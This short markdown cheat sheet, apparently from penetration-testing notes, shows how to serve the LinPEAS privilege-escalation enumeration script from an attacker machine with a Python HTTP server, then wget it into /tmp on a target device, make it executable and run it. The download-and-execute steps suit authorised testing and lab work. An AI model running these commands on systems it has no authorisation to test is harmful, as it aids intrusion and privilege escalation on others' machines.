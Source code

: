 ![image](https://github.com/user-attachments/assets/403f9feb-2483-4fb8-88d8-101c83888794)

## Linpeas 

### Listener : 
```python3 -m http.server```
### In Device cd /tmp directory :
``` wget http://ur_IP:8000/linpeas.sh```

```chmod +x ./linpeas.sh```

```./linpeas```
